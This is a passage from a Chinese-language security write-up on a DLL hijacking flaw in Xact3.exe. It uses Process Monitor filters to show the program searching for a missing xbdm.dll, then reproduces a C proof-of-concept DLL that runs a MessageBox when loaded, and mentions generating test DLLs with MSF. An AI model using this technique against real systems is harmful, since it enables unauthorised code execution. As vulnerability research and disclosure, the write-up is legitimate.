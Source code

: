 ### 寻找过程

在这里我还是使用[Process Monitor](https://docs.microsoft.com/en-gb/sysinternals/downloads/procmon)进行分析：

**设置过滤器**

> 过滤器可以有效的帮我们排除一些不需要关注的信息

* Filter > Filter.. > Process Name > "Xact3.exe"

这样在创建`Xact3.exe`进程时，我们的过滤器就会起作用了，会将该进程的所有行为展示出来。

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-08-15/0x01.png)

然后点击“ADD”，将过滤条件生效。

虽说这样能看到所有的行为，但是还不够精确，需要再加个`Result`为`NAME NOT FOUND`的条件。


**查看加载DLL过程**

我先创建一个`1.xap`：

> 新建文本文档->重命名为1.xap

通过`Xact3.exe`打开，效果如下：

![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-08-15/0x02.png)

可以看出，该进程在不断寻找`xbdm.dll`，直接从该进程的物理路径开始寻找，这很大可能存在DLL劫持漏洞。

## 0x02 利用过程

漏洞作者披露的文章中附带了测试的POC，但是需要编译，我们可以使用MSF直接生成DLL测试。

作者POC：

```c
#include <windows.h>

/* hyp3rlinx */

/*
gcc -c -m32 xbdm.c
gcc -shared -m32 -o xbdm.dll xbdm.o
*/

void executo(){
 MessageBox( 0, "3c184981367094fce3ab70efc3b44583" , "philbin :)" , MB_YESNO + MB_ICONQUESTION );
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved){
switch(fdwReason){
case DLL_PROCESS_ATTACH:{
 executo();
break;
}
case DLL_PROCESS_DETACH:{
 executo();
break;
}
case DLL_THREAD_ATTACH:{
 executo();
break;
}
case DLL_THREAD_DETACH:{
 executo();
break;
}
```